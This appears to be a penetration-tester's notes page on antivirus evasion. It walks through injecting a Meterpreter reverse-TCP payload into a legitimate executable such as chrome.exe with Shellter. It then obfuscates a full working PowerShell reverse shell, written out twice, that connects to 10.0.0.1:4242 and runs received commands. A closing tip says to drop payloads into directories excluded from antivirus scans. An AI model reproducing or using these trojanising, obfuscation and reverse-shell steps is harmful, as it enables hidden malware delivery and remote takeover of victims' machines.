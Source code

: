 ```yaml
---
title: "AV evasion"
weight: 3
---
```


# AV evasion


## AV evasion with shellter

* Shellter is a dynamic shellcode injection tool aka dynamic PE infector. It can be used in order to inject shellcode into native Windows applications (currently 32-bit apps only). The shellcode can be something yours or something generated through a framework, such as Metasploit. Shellter takes advantage of the original structure of the PE file and doesn’t apply any modification such as changing memory access permissions in sections (unless the user wants to), adding an extra section with RWE access, and whatever would look dodgy under an AV scan.
* Install (https://www.kali.org/tools/shellter/)
* How to use (example)
  * Start shellter
  * Choose operation mode: `A` (automatic)
  * PE target: `/path/to/file/chrome.exe`
  * Enable stealth mode? `Y` (in this way the executable works as intended)
  * Select the payload you want (you can also generate a new one)
    * For this example we select a listed payload (meterpreter reverce tcp)
  * Set lhost and lport
  * Now the exe will be overwrite (but shellter creates a backup of the original exe)
  * Set listener (ex. multi/handler), download the exe on the target machine and execute

---

## AV evasion for powershell script - Invoke-Obfuscation

* https://github.com/danielbohannon/Invoke-Obfuscation
* Require powershell (`sudo apt install powershell -y`). You can run powershell with `pwsh`
* cd into invoke-obfuscation folder
* `Import-Module ./Invoke-Obfuscation.psd1`
* `Invoke-Obfuscation`
* Copy a reverse shell in poweshell (example): `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
* Remove `powershell -nop -c` and `" "`
* `$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`
* Set lhost and lport and save (example) as `shell.ps1`
* On Invoke-Obfuscation `SET SCRIPTPATH /path/to/shell.ps1`
* Set `AST` options (The AST options works better with windows 10...
* Choose one of the AST module: `ALL`
* Choose one of the AST\ALL options to apply to current payload: `1`
* In the result you will get the result obfuscated code. Copy and save the code
* Set listener (ex. multi/handler), download the exe on the target machine and execute

---

## Tips

* See the process of antivirus with `ps auxww`.  Sometimes you can see that the antivirus exclude some directory ...&#x20;
  * `clamscan -r --exclude-dir=/test /` . Upload the file in `/test`.
